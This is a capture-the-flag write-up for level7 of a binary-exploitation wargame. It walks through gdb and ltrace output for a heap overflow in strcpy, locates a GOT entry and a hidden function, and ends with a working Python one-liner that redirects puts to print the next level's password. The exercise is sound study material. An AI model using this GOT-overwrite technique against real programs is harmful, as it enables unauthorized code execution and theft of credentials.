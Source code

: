 # level7
The program has buffer overflow vulnerability.
- It segaults when `argv[2]` doesn't exist.
- It segfaults when `argv[1]` is too long.


Four sections in the program:

- It copies `argv[1]` and `argv[2]` using `strcpy` into two  allocated memory blocks of 8 bytes each, without checking the size of the input.

- The program reads the aimed flag file with `fopen` then `fgets` and store the flag in a global string named `c`.

- At the end, it prints a useless message  with `puts("~~")`

- A function `m` prints the content of `c` but is never called.

## Goal
Overflow into the allocated memory to call `m()` instead of `puts()` to print the flag.

## Step 1
The program SEGFAULTS when `argv[1]` is too long.


```console
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A youhouu
Starting program: /home/user/level7/level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A youhouu

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8f82 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb)
```
- `0xb7eb8f82` is not a segment of the pattern.  

- Deduction : The overflow doen'st overwrites the next instruction pointer `eip`.

---

Info registers
```console
(gdb) i r
eax            0x68756f79	1752526713
ecx            0xbffff8e0	-1073743648
edx            0x37614136	929120566
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff69c	0xbffff69c
ebp            0xbffff6c8	0xbffff6c8
esi            0x0	0
edi            0x0	0
eip            0xb7eb8f82	0xb7eb8f82
eflags         0x210246	[ PF ZF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

It overwrites `eax` and `edx`

## Step 2
Go deeper

```bash
level7@RainFall:~$ ltrace ./level7 AAAA ok
```

```console
__libc_start_main(0x8048521, 3, 0xbffff7c4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                                     = 0x0804a008
malloc(8)                                                                                                     = 0x0804a018
malloc(8)                                                                                                     = 0x0804a028
malloc(8)                                                                                                     = 0x0804a038
strcpy(0x0804a018, "AAAA")                                                                                    = 0x0804a018
strcpy(0x0804a038, "ok")                                                                                      = 0x0804a038
fopen("/home/user/level8/.pass", "r")                                                                         = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
`argv[1]` is copied at `0x0804a018`: "AAAA"  
`argv[2]` is copied at `0x0804a038`: "ok"

---

```bash
level7@RainFall:~$ ltrace ./level7 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH ok
```

```console
__libc_start_main(0x8048521, 3, 0xbffff7a4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                                     = 0x0804a008
malloc(8)                                                                                                     = 0x0804a018
malloc(8)                                                                                                     = 0x0804a028
malloc(8)                                                                                                     = 0x0804a038
strcpy(0x0804a018, "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH")                                                        = 0x0804a018
strcpy(0x46464646, "ok" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
The destination of the second `strcpy` is overwritten when `argv[1]` is greater than 20 bytes.

### Solution
Since the destination of the second `strcpy` can be overwritten, We have to set the destination to the location of `puts` in the __GOT__.  

And we can change the value at the location of `puts` in the __GOT__ by the address of `m` function. Thanks to the `source` argument of `strcpy`

## Step 3
Find the address of `m`
```bash
(gdb) info function
```
```console
All defined functions:

Non-debugging symbols:
0x080484f4  m
0x08048521  main
```

`m` is at `0x080484f4`

## Step 4
Find the location in the __GOT__ where the address of `puts` is stored.
```bash
readelf -r level7
```
```console
08049928  00000607 R_386_JUMP_SLOT   00000000   puts
```

Address of `puts` is at `0x08049928` in the __GOT__.

### Verification
```console
(gdb) disas main
[...]
0x080485f7 <+214>:	call   0x8048400 <puts@plt>
[...]
(gdb) disas 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x08048406
```


## Exploit
```bash
/home/user/level7/level7 $(python -c 'print "\x90" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```